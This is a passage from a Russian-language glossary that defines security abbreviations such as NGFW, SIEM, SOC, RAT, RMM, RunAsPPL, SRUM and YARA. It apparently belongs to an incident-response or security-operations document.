| NGFW | Межсетевой экран нового поколения |
| НКЦКИ | Национальный координационный центр по компьютерным инцидентам |
| ПДн | Персональные данные |
| PUA | Потенциально нежелательное приложение (adware и подобное) |
| RACI | Матрица ответственности: выполняет, утверждает, консультирует, информируется |
| RAT | Троян удалённого доступа |
| РКН | Роскомнадзор |
| RMM | Средства удалённого мониторинга и администрирования (AnyDesk, ScreenConnect и др.) |
| RunAsPPL | Запуск LSASS как защищённого процесса (LSA Protection) |
| SEO | Поисковая оптимизация; SEO-отравление продвигает вредоносные сайты в выдаче |
| SIEM | Система сбора и корреляции событий безопасности |
| SNI | Имя сайта, которое видно в TLS-соединении без расшифровки |
| SOC | Центр мониторинга безопасности |
| SRUM | System Resource Usage Monitor: база Windows с использованием ресурсов и сети по приложениям |
| SSO | Единый вход |
| СЗИ | Средство защиты информации |
| SWG | Облачный веб-шлюз безопасности |
| TI | Threat Intelligence: данные об угрозах |
| VIP | Руководство и другие особо важные пользователи |
| ВПО | Вредоносное программное обеспечение |
| VPN | Виртуальная частная сеть |
| WAF | Межсетевой экран веб-приложений |
| WMI | Инструментарий управления Windows |
| YARA / capa / FLOSS | Инструменты анализа образцов: сигнатуры, поведение, извлечение строк |
